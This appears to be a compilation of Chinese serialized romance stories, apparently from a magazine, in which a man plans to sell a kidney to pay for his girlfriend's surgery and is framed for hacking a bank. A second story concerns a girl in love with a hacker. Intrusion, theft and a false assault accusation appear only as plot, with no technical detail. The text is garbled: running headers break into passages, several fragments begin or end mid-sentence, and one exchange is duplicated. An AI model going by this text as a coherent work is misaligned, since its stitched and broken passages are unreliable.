我苦笑着说道：“你以为真的是那么容易解决啊？看似简单，数额太巨大一定会引起惊动的。我保不准几天你就会被揪出来。”

萧然淡淡地笑着说道：“只要雨薇过得好就行，我已经无所谓了。到那时你要好好照顾她，别再让她受伤了！”

泪光在我的眼眶里萦绕，在萧然的身上我看到了自己的渺小。我以为自己的离开就会成全雨薇的幸福，其实这只是逃避自己内疚的一种方式。我握住萧然的肩头说道：“不，别这样，你知道我没那个能力，我怕照顾不好雨薇。我会有办法的，绝对不犯法，谁都不会受到伤害。”萧然的目光中似乎又燃起了一丝希望，犹豫地点点头又不安地说道：“真的吗？”我勉强笑笑，却心乱如麻。

萧然离开后，我开始幻想着怎么筹到钱。可是每一次都被漫长的时间而否定。终于我明白了没有钱是多么可悲的事情。这一夜我失眠了，想了很多的办法，在网页上发求助，把老家的房子卖了，比如去网络上求助……但这都是杯水车薪的打算而已。最后我决定的办法是卖掉身上所有能卖掉的器官，我没有幻想过自己有多么伟大，这也是我证明自己无能的最后的办法了。

我打开电脑开始搜索网络，希望知道卖器官的最高价格是多少，是否能够凑够雨薇的手术费用。顺便又在一些医学网站上登出自己准备卖器官的一些信息，希望有人能出一个好价钱。

“你在干什么？”萧然发出一连串的叹号后问道，我不说话只是看着屏幕，对于萧然的关心，我失声一笑，连苦涩的味道都笑了出来。

“喂，我说话你到底看见没有，给我个回应好不好。”萧然似乎有些着急，但是我依然无动于衷地盯着屏幕发呆。

“如果你有困难我可以帮你，但是你不许这样作践自己，明白吗？”多么美好的语言，只是再华丽的东西也终究要面对事实。如果他可以借我六十万我将十分感激，那么他有这么多钱吗？也许没有，就算有，也会借给一个陌生人吗？当然不能，这是我能预想到的答案。

我的不语换来了萧然无聊的沉默，我也开始着手和那些有兴趣买器官的人联系。原来生命是这么的可贵，六十万对于一个垂死的人来说又是那么的不屑。QQ 上那几人开口要求的口气与我说话，一刹那间我联想到地狱恶魔似的嘴脸。

这个月的六号，我如约来到了市医院，检查血型是否匹配，手术后会不会有排斥反应。看到那个年迈的老人颤巍巍地走到我的面前，笑容中带着一丝愧疚地说道：“年轻人，谢谢你啊！”我笑不出来，这本来就是一场交易，也许根本不需言谢。老人又对我淡淡地说道：“孩子，你看我老家的房子马上就要卖了，手术之后给你钱行吗？”

我看了看房间里那个因为尿毒症脸色苍白的中年男人，心里一阵怜悯，可怜天下父母亲啊！想到生我养我的父母，突然愧疚的感情像针刺一样刺到我心上。但是我依然毫无感情地说道：“不行，我用这钱也是为了救人，一分一秒也耽误不得！”

“你在这里啊！”突然一个面容清秀、一脸天真无邪的女孩子出现在我面前。我莫名地看着这个女孩子，大脑里快速地搜索着，却还是不知道在哪里见过她。

老人很害怕这其中有什么变故，于是连忙说道：“好好，我答应。”

女孩却拦在了我的面前：“不行，对不起，我要和我哥哥谈点事情。”说完拉着一脸茫然的我，走出了医院的住院区，那样子好像是在保护被人追杀的人一样。

不知道一个小丫头怎么会有那么大的力气，一直走到楼下，我撇开她比钳子还要紧的双手。怒吼道：“你是谁啊？你这是什么意思？你是不是脑袋有毛病啊，有病去看医生，别耽误我的事。”我真恨不得一口把这个家伙咬死。

女孩抬头瞪了我一眼，说道：“我是老在你电脑里的那个人！”

眼前的这个小女孩，稚气的脸颊，镶嵌着一双无邪的双眼，皮肤弹指可破，毫无半点的冷漠和世俗的腐蚀。瞪起眼睛，皱着眉头满脸的倔强，撅起的嘴巴有着孩童的可爱。她现在却正告诉我，她是入侵我电脑的人，而且是一而再再而三地入侵了我的电脑。天啊，让我去死吧。

小女孩很聪明，调皮地笑了笑：“怎么你不信？”我摇了摇头：“我信，只是我卖不卖肾，跟你有几毛钱关系啊？”她一字一顿、一本正经地对我说道：“一块钱的关系！”

我彻底无语了：“你别在这里跟我贫嘴，我还有正事呢！”说完转身本就要向回走。

小女孩几乎命令地对我说道：“站住！”奇怪的是，我居然站住了。

我缓缓地转过身，女孩一副得意的样子，拿着存折对我说：“我这里有三万块钱，是我这么多年勤工俭学攒下来的，你先拿去用吧，几年之内不用着急还我。”

“三万？”我哑然失笑道：“真的，谢谢你这么信任我，也这么关心我，但是我请你收回去。三万对于我来说，打水漂还不够呢！”

## 侠隐仙踪

真的谢谢你！……

女孩愣了愣说道：“啊？那么紧急啊。那你也不用卖肾啊！一定还有别的办法的！”

我悄然地看着她。她还能有什么办法啊？她眨眨眼笑着说道：“要不，我们入侵一家大公司，六十万对于那些大公司来说也不算多，只要技术上处理得好，他们短时间内是发现不了的。”

……

“反正不许卖肾！”她倔强地对我喊道。我充耳不闻地向回走去。女孩突然跑过来拉住我。我企图挣脱她的拉扯。突然她鼻涕一把泪一把地冲周围边哭边喊：“不要啊，救命啊，强奸了，救救我啊！”

……结果不用说，我被警察叔叔请进了派出所。这一天来，我经历了很多半生的第一次。

- 第一次准备卖肾。
- 第一次被叫成强奸犯、变态色魔、无耻下流的流氓。
- 第一次和警察叔叔零距离接触。
- 第一次被警察叔叔带上了冰冷的手铐。

（待续）


### 我的失忆女友（二）

迟一粒

在派出所里一呆就是一天一夜，我第一次如此频繁和不安。侧目那几个沙龙佛一点儿也不着急，和警察一边谈笑风生，一边喝着咖啡、磕着瓜子……

第一次进派出所，警察就以非常公平公开的方式对我进行了罚款，罪名是在公共场合有伤风化，对田甜（那个陷入性骚扰危机的死丫头）进行性骚扰，并且情节严重，给予五千元罚款。

……

“怎么了？需要帮忙吗？”田甜这个丫头满面春风地对我说。  
“为什么帮我，我不是流氓吗？”  
……

忍受了半个小时的煎熬后，突然派出所闯进一个风风火火的女人。进到派出所就大喊大叫：“田甜啊，你在哪里啊？”

……

那女人一见警察就一把鼻涕一把眼泪地说道：“对不起啊，这个女孩是我妹妹，患有妄想症，只要看到长相猥琐的人，就拉着人家说是流氓！”

……

临走的时候，警察同情地看着我说道：“你比别人有前途。长相猥琐也不是你的错，以后出门前戴个口罩就没事了！”

……

出了餐馆，田甜那个小丫头站在餐馆外面，嘴里嚼着口香糖，手里拎根烟，完全就是一小太妹。看见这个丫头我心里就窝火，转身刚准备离开。

吃饱喝足没想着怎么才能弄到钱了！不过事先你要告诉我，你需要多少钱啊？”田甜笑眯眯地问道。  
“六十万！有吗？有就借我吧！”我简直就要火冒三丈了。  
这次轮到田甜傻眼了，傻傻地说道：“六十万啊！这么多啊！那就入侵银行或者淘宝什么的吧！或者蓝天国际贸易有限公司吧，那个公司挺有钱的！”  
我感觉全身上下都在冒火，一个劲地告诉自己要冷静，到现在我真的是无话可说了，一开始我就决定不去犯法，牢狱生活虽然我没体验过，但是可怕程度我是可想而知的，尤其是刚刚在派出所呆了一天一夜。  
……  
“你不怕犯法吗？”我真担心这个家伙。  
“不怕！你害怕啊？”  
“废话，当然害怕了。”更怀疑这家伙的脑袋是不是有毛病，为什么总要入侵网站呢？“田甜，你听我说，法律规定不准鲁莽犯罪的，你也不能触犯，明白吗？”  
田甜一副觉悟的样子说道：“你说得对，入侵蓝天公司，劳务费神不说，还犯法。”

……“对了，要不，你绑架我吧！”索取金额六十万，爷爷一定会救我的！  
“住口！到底这个家伙怎么回事，怎么总跟法律过不去啊？”  
“田甜，我有过对不起你吗？”  
“没有。”  
我不死心地又问道：“我伤害过你吗？”  
“没有。”  
我更加纳闷地问道：“我是不是长相真的很难堪，让你这么厌烦我？”  
“你怎么这么说啊！我不讨厌你，你也很可爱，长相还算帅气吧，最重要的是很有个性。”她好像是在夸奖我吧！  
……  
田甜突然脸红了起来，神秘地笑了笑说道：“因为，我很喜欢你。从小爸爸爷爷担心我被人欺负，学校里、家里每个人上上下下对我的话和要求都不会有一丝懈怠。……只有你，那么的特别。”  
……  
“你喜欢我吗？愿意和我在一起吗？”  
“不用了，我有喜欢的人了。对不起，再见了。”

我看到屏幕上面是一些网页，还有一些破解、注入工具，还有就是蓝天财务系统的转账信息，转账的账号居然是田甜的名字，数目是六十万。  
……  
田甜的眼睛里含着泪水，咬着嘴唇说道：“蓝天公司就是我爷爷旗下的，怕什么，反正我爷爷也不会把我送进监狱的。胆小鬼，我这么做都是为了你好，知不知道。”  
……  
终于回家了，我终于回到家里了。本想大睡特睡一觉的，可是我发现自己的电脑是打开的。仔细回想起来好像我从来都没有开过电脑。  
……  
突然我想到了一个软件，这个软件在电脑里是隐藏的。主要的作用是记录一些我曾访问的文件和网站，也是为了防止田甜在我的电脑上胡作非为。……  
打开 U 盘里的内容，找到隐藏文件，输入文件的密码，里面就是我的访问记录。……原来我离开这两天的时候里，我的电脑一直都在记录入侵中国银行。

## 侠隐仙踪

家伙被驱逐出去了。然后这个高人开始清除所有的访问记录。如果不是那个高人相救，恐怕现在我已经被网警揪走了，连看守所也出不来了，倒是很省事。很显然我正被一场阴谋强奸着，而且还没有完结，我现在正在被这场灾难的漩涡残害着。但是我却不知道制造灾难的人是谁。我拔掉电脑的电源线，恨不得把电脑都拆散了，最近说什么也不能上网了。太危险了。

就在我胆战心惊的时候，门铃响了起来。门开了，雨薇微笑着站在我的面前。看到我的那一刻眼泪掉了下来，轻声地说道：“我终于把你找到了。”

我愣了，半天没说出来话。忘记思考雨薇是怎么找到我的，也忘记替她擦掉眼泪，只是那样傻傻地看着她。雨薇不客气地走了进来，看着我的猪窝皱了皱眉头，然后像家庭小主妇一样开始整理房间里乱七八糟的垃圾。而我好像是一个白痴一样，看着她把那些垃圾都放在一个袋子里，看着她把电脑和书架擦得干干净净，看着她把被子叠得整整齐齐。突然心里很酸，如果不是我三年的背叛，也许这样的生活每天都属于我。

收拾了房间之后，雨薇拉着我到了菜市场，和那些卖菜的大妈大姐们一阵口舌之争，满载而归。回到家里，她围着围裙哼着好听的歌，在厨房忙活着，而我坐在电视机前，看着电视机的画面，大脑里却全是雨薇微笑的脸，耳旁全是她哼着的歌。

晚上九点，我们才围在饭桌前进行了一场“惨绝人寰”的饭菜大屠杀。吃饱喝足之后，雨薇看着我满脸饭菜的残渣甜甜地笑着，像是这季节的晚风一样轻柔而又舒适。

雨薇从包里拿出一张存折，尴尬地说道：“我知道你一定有事瞒着我，而且我也知道你很缺钱，这些虽然不多，但是你先收下，我还会继续想办法的。”

我不知道该说些什么，也许她还不知道自己的病情，但是现在我真的很缺钱，所以什么都没说，拿起了钱，声音极小地说：“我会还你的！”

雨薇眯着眼睛笑着说道：“你以为我借你钱就白借的吗，快去，给我刷碗去。”

“唉！”我爽快地答应着。如果可以给我和雨薇一辈子的时间，我愿意每天都刷碗、洗菜。对于我来说，这就是莫大的奢求和幸福。

终于稀里糊涂地把碗筷都洗完了，从厨房里跑出来，雨薇在卧室里喊着说：“你去冲个澡好吧？”

不会吧，这也太直接了吧？雨薇的话刚刚说完，我这边就已经鼻血飞流直下三千尺了。二话不说我就冲进了浴室。我也不知道自己洗的是哪里，反正以最快的速度钻出了浴室。不知道自己是穿着衣服进卧室，还是配合一下雨薇直接一点，什么也不穿。最后我决定还是穿着睡衣吧，万一雨薇那个丫头给我来个难堪，我这脸可就丢大了。

做好了一切的思想斗争之后，我诚惶诚恐地出现在卧室门口，轻轻地敲着门。长这么大第一次这么斯文过。得到雨薇的允许后，我走进了卧室。雨薇安静地躺在床上，温柔地说：“你累了吧，过来，睡吧！”

这一情节让我联想很多，强制地按捺着自己激烈的情绪和热血，连滚带爬地来到床上。看着刚刚出浴的雨薇，身上好像发了烧一样，热血在内心里沸腾。但还是不敢紧紧地抱着雨薇，窝囊地有距离地躺在雨薇的身边。

“抱我！”

晕，雨薇主动发话了，这可不是我的错啊。就在我情绪高涨的时候，我突然意识到雨薇的语言中有哽咽，有悲伤，有压抑，有痛苦。但是我还是抱了她，轻轻地，就像是相爱多年的夫妻那般。雨薇紧紧地抱着我的身体，就像是害怕一张开手就会失去一样。她哭了，因为她的肩头在颤抖，泪水印湿我的睡衣。这样的夜晚，这样的爱人，没能让我幸福，而是心酸。

她幽幽地说道：“三年来，每个夜晚我都难以安眠，我总会觉得遗失了什么，还渴望着什么。可最终才发现原来我寻的只是曾经沉重难以遗忘的爱。在你离开这段日子里我开始努力地回忆，拾起记忆的时候，决定再也不会放开你，任何情况下都不会！”

城市霓虹灯的映照下，她漂亮的脸上是多么让人心疼的倔强。我把她搂得更紧，三年来我又何尝不是如此。只是如今这份深爱该用怎样的时间单位去计算。（待续）

### 我的失忆女友（四）

海边一粒沙

清晨，睁开眼睛看着朝霞映红了整片天空，看着枕头上残留的发丝，还有被窝里的余温，我真后悔昨晚什么都没有干。如果这事传出去，估计所有女人都会认为我很纯洁，所有男人都会认为我很败类，也包括我自己。

在床上睡了无数次的回笼觉，最终被雨薇揪着耳朵从床上拎了起来。看着端到眼前的盘子里，金黄色的煎蛋泛着幸福的味道。我笑着对雨薇说：“那么让我怎么报答你呢？亲一下呢？”

“色狼，滚开！”接下来的事情是我始料未及的，因为雨薇一脚把我踹到了墙角边上。很难想象她是一个生了重病的人，也庆幸昨晚上没有占她的便宜，否则恐怕现在我的小命就不保了。我捂着肚子看着雨薇得意地笑，我就纳闷怎么现在的女孩子都那么野蛮啊！

就在我极度郁闷的时候，一阵敲门声打消了我所有的计划，我只好快快地去开门。

“老公，你看，我给你买早餐了，怎么样？我乖吧！”打开门之后田甜一脸兴奋地叫嚷着，手里拎着好多吃的。不过她的话音刚落，我就感觉到身后那股杀气的威力，简直可以与核武器的杀伤力相媲美！

田甜从门缝看了看我身后的雨薇，撅起嘴巴，眼圈红红的，眼泪簌簌地掉了下来，委屈地说道：“老公，你怎么又换了一个女人，你口口声声说爱我，都是骗我的吗？”

她一口一个老公地叫着，我还没明白是怎么回事呢，现在又来一句“又换个女人”。天啊，我扭过头看着雨薇那张绿了又黑了的脸，世界末日就在眼前了。这次看来我是跳进黄河、长江、七大洋也洗不清了。

不过我还是要为自己的清白挣扎下。连忙对田甜一脸愤怒地吼道：“田甜，你不要无理取闹好不好？难道这样有意思吗？”

田甜眼泪马上更加汹涌了，我真佩服了，演戏的技巧真是太高明了，我在她面前就像是幼儿园里面尿裤子的小朋友。田甜用恶毒的眼神看着我说道：“你太没良心了，昨天因为性骚扰别人被拘留，还是我保释你的。今天你就给我弄个狐狸精回来，现在还跟我这样说话，你个混蛋！”

看到雨薇的脸又从黑变成了白，我实在忍受不住了，一把将田甜推倒在地上，大声地说道：“你不要胡说好不好！我告诉你，我跟你没有任何关系，请你不要总来骚扰我！”

田甜哭得更凶了，她站了起来，走进房间，对着发愣的雨薇就是狠狠的一巴掌，吼叫着说道：“狐狸精，你到底想要多少钱？给我说，然后永远地消失在我的眼前！”

田甜这一巴掌打在雨薇的脸上，也仿佛打在了我的心上。我发疯一样地跑过去，扶住雨薇，看着田甜这个恶魔，真的很想吃了她。我一字一顿地说道：“田甜，我恨你，现在给我滚出去！你这个疯子、泼妇、神经病！”我想把所有恶毒伤人的语言都骂尽，但是由于从小到大我受的都是文明教育，所以没有掌握太多恶毒的语言。

不过这好像足以让田甜受伤了，她瞪着雨薇说道：“你这么做到底为什么？”

雨薇扬起头，冲着田甜微微一笑：“为了和我爱的人在一起，而且他也爱我，我们会结婚的，永远地在一起。”怀中的雨薇还在因为这场闹剧颤抖着，但是她的话每一个字都是那么坚定决绝。听到这些，我的眼泪刷的一下子流了下来，仿佛这句话是世界上最美妙的语言。

田甜此刻也在颤抖，呢喃地说道：“我才是他的女朋友，我才是！”

雨薇淡淡地一笑：“昨晚我在这里住下了，发生了什么我不想多说，我像个妻子一样给他做早餐，为他打扫房间，而且我会陪他度过每个夜晚。”

田甜跌坐在地上，像个几岁的孩子一样嚎啕大哭了起来，边哭边喊着：“我输了，我输了，为什么输的人总是我，为什么总是我！”

雨薇没有说话，只是闭上了眼睛，整个身体都失去了重心，瘫软在我的怀里。我吓坏了，大脑嗡的一声，焦急地呼唤着雨薇：“雨薇，雨薇，你怎么了？别吓我，求求你了！”但是雨薇像是一个木偶一样任由我的摇摆，却不给我任何的回应，我连忙抱着雨薇向楼下跑去。

转过身狠狠地瞪了一眼田甜，如果雨薇有什么事的话我会恨她一辈子。不过此刻田甜居然也不哭不闹了，一脸得意的奸笑，看着我倒竖起了中指。用我此刻的心情来说，很想狠狠地抽她几巴掌。但是现在最要紧的不是出气，我要赶紧把雨薇送到医院才是。

好不容易叫到了一辆出租车，但是由于是上班的高峰期，街上的车比天上的星星还要多。现在我非常痛恨这些车辆的制造商。没办法，只好背着雨薇下了出租车从路上飞奔。

看着大爷大妈们指指点点的样子，估计他们早把我当成精神病了。

来到医院还是上次那几个医生和护士，看着他们怪异的眼神，估计又开始怀疑雨薇昏倒的真相了。不会又怀疑是我偷窥未遂让雨薇愤怒过度而晕倒的吧！

医生把雨薇送进了急救病房，我的心也随着那盏亮起的红灯悬挂了起来，大脑里面一片空白。这一切都是真实发生在我身上的吗？为什么我会觉得那样的恍惚。田甜为什么要这样做呢？我总感觉巨大的阴霾席卷而来，压得我无法呼吸，一切都是那样的沉重，而现在我唯一能做的就是站在急救室外祈祷雨薇能够平安无事。

“你在这里干什么？”萧然站在我的身后，脸色阴暗地看着我。

“萧然，雨薇病了，在急救呢！”我几乎没有任何力气地回答着。

“雨薇去找你了？你对她说了什么？她怎么会变成这个样子？”面对萧然的质问我一个字也解释不出来。我总不能说不知道从哪里冒出来一个师父来，把我送进了派出所，然后又扇了雨薇一巴掌。就算是萧然不信我，我自己想到这些也很想自杀身亡。

“你觉得你真的要和雨薇在一起吗？你觉得你能给她幸福吗？”面对我的沉默，萧然似乎并不满意。

我抬起头很认真地说道：“等她病好了，我们就结婚。我想好了无论怎么样都要给她幸福。你知道吗？分开这段日子，我痛苦，她也不好过……”

“你太自私了，你能给雨薇什么样的幸福呢？让她三天两头地住医院吗？”萧然激动地揪起我的衣领，那样子似乎要把我吃了都不解恨。

“我是自私，但是难道你想看到我和雨薇这辈子都不快乐吗？”经历那么多的离别和伤痛，对我来说没什么比和雨薇在一起更加的重要。

“哼，我想你会后悔的！”萧然的样子很吓人，他这个样子让我觉得非常陌生，他的眼神让我直冒冷汗。此刻的我已经完全崩溃了，雨薇的病情，田甜这个妖怪的从天而降，萧然巨大的变化，让我真的无法接受。

“谁是病人家属，病人已经醒了。”听到医生的召唤后，我连忙从椅子上站了起来向病房走去。

但是萧然却抢先一步站了起来，直接走进了急诊室，然后轻轻地关上了门，整个就把我给扔在了门外，好像病人家属是他，而我只是一个跟雨薇毫无关系的陌生人一样。

想到这里我就愤怒，雨薇明明就是说我才是她的结婚对象，对待朋友的老婆干什么这么亲密啊？我怒气冲冲地推开门，本来想教训一下萧然这个家伙，但是首先映入眼帘的是雨薇那张苍白冷漠的脸。

“雨薇，你还好吗？哪里痛告诉我！”我跑到了雨薇的病床前，看着雨薇憔悴的脸心疼得不行了。

“你躲开，难道你伤害雨薇还觉得害得不够吗？”萧然一把将我推开，面目可憎的样子简直让我想吐。

“你干什么，刚才在我家，田甜来的时候，雨薇已经承认我们的婚事了。”为了让萧然给我退避三舍，我必须使出杀手锏了，要不然老婆还没娶到手，就准备勾引我老婆，给我扣上一顶绿帽子了。

萧然脸都气黑了，抛给我一个白眼问道：“是吗？田甜是谁？”

“被我拒绝抛弃的人啊！”晕了，我说什么呢？“不是，是诬告我性骚扰她的人！”我真怀疑自己的智商出了问题，随便编个认识的理由不就行了，干嘛非要说实话呢？

萧然冷笑着，看了看床上的雨薇。

雨薇的脸色从白变成了黑色，眼睛里居然含着泪水，幽怨地看了看我，扭过头看着窗外的天，叹息着说道：“你们都走吧，我不想见到你了。”

“雨薇，你听我解释好吗？事情不是你想象那样的，事情是……”

可是还没等我说完，萧然就得意地说道：“好了，你还没有听到雨薇让你滚吗？”

雨薇看了看萧然，厌恶地说道：“萧然，你也走吧！”

萧然吃惊地看着雨薇说道：“为什么？我留下来照顾你啊！”

“不用了，我没有事的。你走吧，一个负我，一个骗我。我讨厌你们！”雨薇的眼泪终于掉了下来，我和萧然都内疚地低下了头。

想起几年前的事情，如今怎么能让雨薇不误会呢。我低声地说道：“雨薇，我走了，明天来看你。如果我真的做了对不起你的事情我发誓自己会不得好死，求你相信我！”

### 朦胧仙踪

雨薇的肩头还在颤抖，但是我已经无话可说了。轻轻地走了出去，心情异样地复杂。为什么不幸的事情都被我遇到了呢？

刚刚走出急诊室，迎面就走来了几个警察。由于上次性骚扰事件给我心里造成了严重的心理阴影，所以看见警察我连忙低下脑袋，双脚有点发抖。

“请问你是林小木吗？”

晕，我都已经躲着他们走了，怎么又找上我了。回想起来，这两天我很老实啊，我也没骚扰谁啊。怎么这警察又找上门了，我都不知道自己的嘴巴是怎么张开的，支支吾吾地说：“是，是啊，又怎么了？”

“你涉嫌入侵中国银行，恶意挪用六十万人民币。现在我们请你回派出所协助我们调查。”警察说完这句话，我就已经感觉到天旋地转了。

……

“你的意思是有人陷害你的？”警察转动着笔，一脸威严地看着我。

“是的，那个U盘可以证明我的清白。虽然我很紧张，见到警察浑身都疼，但是为了我的清白我豁出去了。”

警察非常严肃地看着我说道：“可是我们已经没收了你的电脑，发现根本就没有U盘。”

没有？我的大脑嗡嗡地开始作响。这时候我的大脑里面闪现出无数电视剧情节，在这种情况下最好保持沉默，我擦了擦头上的汗说道：“我希望你们好好找找，我无话可说了。”

“雨薇你快下来，警察先生请你们放手不要这样拉她，她是病人，她是病人。”我慢慢和她说。这个时候萧然连忙挤进人群，紧紧地搂住雨薇，一听到雨薇是病人，那几个彪悍的警察全都放开了手。

萧然轻轻地拉着紧紧抱着我的雨薇说：“乖，雨薇放开手，警察都说了会调查清楚的。”

雨薇哭得已经不能呼吸了，狠狠地甩开萧然的双手，恶狠狠地说道：“放开，这一直都是你想要的结果吧？我不放手，我不放手，小木，小木……”剩下的只是雨薇哭泣的呢喃。

……

在网络犯罪研究中心我终于明白这到底是怎么回事了。原来我的IP地址和电脑有显示我入侵了中国银行，而且盗窃了六十万巨款。天啊，有没有搞错我入侵中国银行？

我冷静地想了想说道：“我可以证明我是无罪的，因为我的电脑里面有一个软件，它可以记录我的访问途径，还有一些入侵记录。”

“你的意思是有人陷害你的？”警察转动着笔，一脸威严地看着我。

“是的，那个U盘可以证明我的清白。”

……我惊奇地发现，我入侵中国银行的时间居然就是田甜来我家之后，我送雨薇进医院这段时间。那么雨薇和医生都可以证明我是无辜的啊！

不过还没等我把这件事告诉警察，萧然就来到了看守所。我似乎见到亲人一样，简直鼻涕眼泪一大把。

萧然说道：“你等下，我有事和你说。据我所知那六十万还没有找到，不过六十万打在你的一张卡里了，现在这张卡在我的手里。”

我冷冷地看着萧然，一句话也说不出来，突然我感觉也许这一开始就是一个阴谋，而阴谋的主使就是萧然。

萧然冷笑着说道：“你觉得我们为什么会成为好朋友？如果不是因为雨薇我不会想认识你。从雨薇出车祸的那天起，我就想方设法地接近你。时间久了，我以为我淡忘一切的嫉妒，但是失忆了的雨薇居然看见你的那一刻起就重新地爱上你了。为什么我总要失败，为什么雨薇的心里只有你。田甜喜欢我很久了，是我把她安排在你身边的。……”

“萧然，亏我还把你当成好兄弟，而你却这样对待我！”

萧然淡淡地一笑：“我说了我只对雨薇有感情，你只是拿来牺牲的。我从来都没把你当成兄弟，请你不要自作多情。”

命我也不会皱下眉头的。

萧然走了，我也没有要求任何人去追查我无罪的证据。对于警察的追问我也不去争辩，也不去争论我是不是无罪，反正只是保持沉默。

不久之后我就要宣判了，乡下的父母一把鼻涕一把眼泪地在我面前哭诉我的不争气……可我却无法回头。

我自以为自己很伟大，为了自己心爱的女人可以付出一辈子的自由。可是当我看到美丽的雨薇时，我觉得我其实是一个傻瓜。

雨薇递给我一张体检报告……“可是你总会晕倒啊？！”

雨薇不好意思地笑了笑：“那是因为我吃了减肥药……所以时常头晕啊！”

“可是你为什么要做骨髓检查啊？”

雨薇生气地说道：“我哪儿知道为什么要做那个该死的检查啊……”

晕了，那我还在这里装什么伟大啊，谁陷害我谁去坐牢吧。

雨薇嘟着小嘴，一副很委屈的样子说道：“还有啊，萧然的公司根本就没有破产，那么大的一个文化公司说破产就破产啊？你以为是摆地摊啊？”

我大脑里冒出无数黑线条……我所有的伤悲都是这小子给我散发的烟雾弹。

雨薇笑眯眯地说道：“我已经把那个U盘找到了……这些我都已经交给警察了。记住你答应过我的，要娶我，你出来的时候，不要忘记你的承诺哦！”

雨薇笑得很美，在她的笑容中我似乎看到了明天美丽的阳光，还有今后每一个美好的日子。

离开看守所的日子，也是萧然双手被拷着走进来的日子……但是走到外面却只是来回匆匆而过的陌生人。

没有想到雨薇还这样浪漫呢。难道这是她要给我的惊喜吗？

心急地打开信，居然是田甜写给我的：林小木，当你收到这封信的时候，也许我和萧然已经走进了看守所……如果我是无私善良的，就不应该助纣为虐……

是啊，我早该明白这有多么的愚蠢。林小木，我由衷地希望你和雨薇可以幸福，雨薇的病已经不能再拖下去了……

风有些凄冷，我跪在原地，欲哭无泪。这一切到底为了什么呢？

接下来的日子里我每天都徘徊在这个城市的大街小巷上，寻找着遗失的未来……如果早知道今天这一切，我会承担所有的罪名……

经历无数失望之后，我开始茫然。如果爱几经辗转，历经离别与悲伤仍然不能完整，那么放手释然是否是爱你最后的纪念！

### 赤菱


如烟说这个世界上人们所谓的疼痛，都不是真正的疼痛。那些能称得上疼痛的东西已经不再疼也不在痛了。疼之切，痛之深便是麻木。

那座房子金色琉璃，耀眼绚丽，全身上下散发着一种骄傲……

看到林木木离开后，我才把目光收回，离开阳台坐在电脑前久久地沉思……在我心里再一次地由浅变深。

如果对一个人始终想抑制的时刻却还要拼命地抑制，久了便会抑郁成灾。

你是在哭吗？

如烟的声音很好听，带着山泉水般的清澈……

### 傀隐仙踪

仙女无疑。今天，她近在咫尺地站在我的面前，看着她弹指可破的肌肤，那动人的容貌，一眸一笑带着皎霞的光芒，如此醉人。我只是一个站在仙女面前的凡人，仅此而已。

我骤然止住哭泣，抹掉眼泪，飞奔回家。我终于明白天使和凡人之间有着一段无法逾越的程度。林木木是我穷尽一生都无法触及。而我们之间的距离是如烟，那个网络安全界的神话，那个凡人中圣洁的仙女。为了一个高不可攀的距离，我还拼命地追逐什么？

我决定不再三点准时守在阳台看着林木木，不再整天看着忧伤的小说。身边常常放着一本网络攻防的书籍。常常在寂静的夜里孤独着，学习着，忘我地钻研。深夜，有些倦意，才抬起头透过纱窗看着对面林木木房间里那朦胧的灯光，突然一阵心酸的温暖。

这个世界上总会有些偶然，比如我在楼下看到如烟醉在另一个男人的怀里，比如我在林木木的技术论坛里看到他那些让人疼痛的文字，比如那场车祸里我推开了林木木，受伤的人是我。

当我在病房里醒来的时候，第一次那么近距离地看到了林木木。微微上翘的睫毛盯着笔记本电脑抖动着，沾满了阳光和朝气。那目光甚至可以让一个人疯狂地着迷。

本想一直这么看着林木木，甚至幻想永远如此。可是麻药过后的疼痛，让人无法忍受，轻声的呻吟终于结束了寂静的沉默。

林木木关切的眼神让我有一种幸福近在咫尺的错觉。他说，你好些了吗？担心死我了。

我忍住雀跃的心情，笑得浅淡，摇头说没事，并且告诉他我叫冷眸，寒冷的冷，眷恋盎然的眸。

林木木笑着，像极了初春三四月绽开的桃花，嘴角轻轻地上扬，一抹清新，醉人。

我认识你，以前总是在下午三点看窗外的暮色，有一次躲在月季花下哭。那次哭过之后你再也不在三点看风景，而是熬夜凌晨一点左右睡觉。

他的话让我受宠若惊，这份单恋似乎是阴雨天里的第一缕阳光。我重重地点头，羞涩地低下头。有些时候爱一个人的感觉，是在起起伏伏的悲伤喜悦中挣扎。

如果不是林木木接到如烟的电话，风风火火地跑出去，我还以为林木木至少对我有着一份特别的感觉。

林木木走了，一阵风儿似的。留在整个病房的是整个夏天的烦躁。心窝凉得疼，我强忍着疼痛坐了起来，好奇张望，看着他的电脑里到底隐藏着什么。喜欢一个人，就会想尽办法去探究他身心的秘密，以为这样可以更了解、更接近。

但是我看到的是自己的心伤，电脑屏幕上面是一个肉鸡的屏幕，这个肉鸡被林木木命名为如烟。那个如诗如画、那个黑客技术高超的女子。刚刚绽放的心花在这一刻迅速地颓败凋零。我强忍着眼泪，告诉自己这份感情是个错误。

移动着僵硬而又疼痛的身体，一整个下午我都坐在轮椅上看着下午柔美的阳光。晚上爸妈过来送些吃的给我，妈妈哭着说，冷眸，你以后走路的姿势会很难看。

我淡淡地笑，说着好听的话安慰着妈妈。因为我很明白，我的世界没有林木木，什么都无所谓了。残疾，疼痛都无关紧要。

黄昏我凝望着医院那幽静的小路，透过玻璃窗我看到了欢笑、哭泣、奔跑的孩童，步行艰难的老人。我不知道这样的人生里，我在扮演着怎样的角色。

今夜恐怕他不会再回来了。我把林木木的电脑放在眼前，浏览他去过的网站，整理他喜欢学习的技术、喜欢的颜色、生日……

明知他不会再来看我，我还是等到了凌晨一点。看着夜空，点点繁星忽闪得无力，仿佛它们也开始疲惫。

合上林木木的电脑，我想如果我不能成为林木木的唯一，那么就做给他幸福的天使。

这个夜晚，我在梦里百转千回地寻找，我看到如烟在他的怀里幸福地笑，而林木木笑得比夏日的阳光还要灿烂，他们住在那幅有金色琉璃的城堡里。而我有着一双翅膀，飘在半空中看着他们幸福，我欣慰地笑，笑到哭，泪水沾满了天使的衣裳。

天边一丝鱼肚白的光亮，启明星发着微弱的光芒。白色的窗帘在晨风中抖动，发出轻微寂寞的声响。摇摆着身躯也无法驱赶沉寂的空气。打开日光灯，林木木躺在角落的沙发椅上睡得很熟，像是一个不染凡尘的天使。

他睁开眼睛想给我盖下被子，却正好与我的目光相遇。他笑，满脸的温柔让我多睡一会。我却坐了起来，看着太阳是如何一点点地挣扎，爬出云层，跳跃出来的。而林木木一直都坐在我的身后不说话，双眼紧盯着他电脑幽蓝的屏幕。我知道此刻如烟开始上网了，林木木的心也跟着起伏了起来。

我轻声地叹息，眯着眼睛看着林木木专注的样子说。林木木，我做你妹妹吧，你要像对亲妹妹一样对我好。

林木木错愕地抬起头，眼睛里的情感很复杂。很久很久之后才打破沉寂问我为什么？

